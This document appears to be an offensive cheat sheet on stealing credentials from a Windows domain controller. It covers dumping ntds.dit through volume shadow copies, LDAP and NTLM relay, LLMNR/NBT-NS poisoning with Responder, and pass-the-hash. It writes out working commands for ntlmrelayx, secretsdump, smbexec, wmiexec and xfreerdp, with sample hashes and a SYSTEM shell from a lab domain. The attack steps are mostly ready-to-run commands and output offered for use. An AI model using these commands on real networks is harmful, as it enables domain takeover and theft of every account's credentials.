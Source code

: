 # Windows DC Credential Access

***

## Dump the Ntds

```
vssadmin create shadow /for=c:
```

```
cmd /c copy \\?
\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit  .
```

```
• reg save HKLM\system system
• $key = Get-Bootkey -SystemHiveFilepath ..\ntds-temp\system
```

```
• esentutl.exe /p ntds.dit /!10240 /8 /o
```

```
• Get-ADDBAccount -All -DBpath ntds.dit -Bootkey $key
```

## LDAP Relay

LDAP Relay can be seen as the good old NTLM Relay with a twist. The third party host to which we will relay credentials will be the Domain Controller. LDAP Relay leverages the fact that signed Lightweight Directory Access Protocol (LDAP) binds are not required, by default 

The attacks lifecycle is the following: 

1. Identify a Domain Administrator’s workstation 
2. Become a man in the middle between his workstation and the gateway 
3. Inject a hidden link in the web traffic pointing to a HTTP listener that requests NTLM authentication 
4. Redirect the captured credentials to the DC 

#### Tools

    intercepter-ng 

## LLMNR & NBT- NS Poisoning

LLMNR and NBT-NS are both methods of resolving hostnames to IP addresses.If  DNs Resolve  fails, LLMNR will be reached followed by NetBIOS. LLMNR is the successor to NetBIOS.  LLMNR/NetBIOS request will be sent over multicast or broadcast respectively. 

#### Responder

```
git clone https://github.com/lgandx/Responder
```

```
Python3 responder -I eth0 -v
    SMB] NTLMv1-SSP Client   : ::ffff:192.168.1.43
    [SMB] NTLMv1-SSP Username : NOORANETSHIELD\administrator
    [SMB] NTLMv1-SSP Hash: administrator::NOORANETSHIELD:D5D8BEDA499EB29700000000000000000000000000000000:4E9EE934A1905554C7EEE4239845FC0D20E0ACCEFC2980B6:bcd1e1a4b3e6e3e5
```

### Abusing NTLM relay and PTH

* Identifying SMB Signing 
  
  ```
  crackmapexec smb --gen-relay-list nss-target.txt 192.168.1.0/24
  ```

* Capture credential and open socket on 1080 
  
  ```
  ntlmrelayx.py -socks -smb2support -tf nss_targets.txt
  >Socks ---> run after client connect to share
   SMB  192.168.1.40 NOORANETSHIELD/ADMINISTRATOR  TRUE   445 
  ```

* Config proxychain 
  
  ```
  Nano /etc/proxychains4.conf 
  Socks 127.0.0.1 1080
  ```

* Use LLNMNR poisoning 
  
  ```
  Nano /etc/red/Responder/Responder.conf 
      Smb = Off
      Http = Off
  Python3 responder -I eth0 -v
  ```

* Method to gain hash from network 
  
  ```
  Any system on network connect to server share 
  \\192.168.1.40
  Net use \\192.168.1.40\c$
  \\anyfakeaddress
  ```

* PTH and get system shell 
  
  ```
  proxychains4 -q smbexec.py NOORANETSHIELD/ADMINISTRATOR:administrator@192.168.1.40
      [!] Launching semi-interactive shell - Careful what you execute
      C:\Windows\system32>whoami
      nt authority\system
  ```

* Get All Ntlm hash from Domain 
  
  ```
  proxychains4 -q secretsdump.py NOORANETSHIELD/ADMINISTRATOR:administrator@192.168.1.40
  ```

* Dump  NTDS.dit 
  
  ```
  proxychains4 -q secretsdump.py -use-vss  NOORANETSHIELD/ADMINISTRATOR:administrator@192.168.1.40
  ```

* Pass the hash any user on domain 
  
  ```
  wmiexec.py -hashes '00000000000000000000000000000000:47bf8039a8506cd67c524a03ff84ba4e' administrator@192.168.1.40
  ```

* Remote Desktop with Pth
  
  ```
  xfreerdp /u:administrator /pth:47bf8039a8506cd67c524a03ff84ba4e /v:192.168.1.40
  ```